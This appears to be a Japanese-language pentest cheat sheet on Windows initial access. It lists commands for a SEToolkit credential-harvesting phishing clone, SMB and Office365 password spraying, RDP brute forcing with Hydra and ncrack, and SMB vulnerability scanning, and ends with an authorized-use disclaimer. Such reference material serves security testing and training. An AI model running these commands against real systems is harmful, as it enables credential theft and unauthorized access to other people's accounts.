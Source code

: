 # Windows Initial Access Techniques

## フィッシング攻撃

### フィッシングメール作成
```powershell
# SEToolkit を使用したフィッシングページの作成
setoolkit
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
2) Site Cloner
```

## パスワードスプレー攻撃

### SMB パスワードスプレー
```powershell
# CrackMapExec を使用したSMBパスワードスプレー
crackmapexec smb <target-ip> -u users.txt -p password.txt

# Spray365 を使用したOffice365パスワードスプレー
Spray365.ps1 -UserList .\users.txt -Password Spring2024! -Count 1 -Delay 300
```

## 公開サービス攻撃

### RDP ブルートフォース
```powershell
# Hydra を使用したRDPブルートフォース
hydra -L users.txt -P passwords.txt rdp://target-ip

# NCredを使用したRDPブルートフォース
ncrack -v -U users.txt -P passwords.txt rdp://target-ip
```

### SMB 脆弱性スキャン
```powershell
# Nmap SMBスキャン
nmap -p445 --script smb-vuln* <target-ip>

# SMBMap 共有列挙
smbmap -H <target-ip> -u anonymous -p anonymous
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- 実際の攻撃に使用することは違法です
- ターゲットシステムに重大な影響を与える可能性があるため、慎重に実行してください 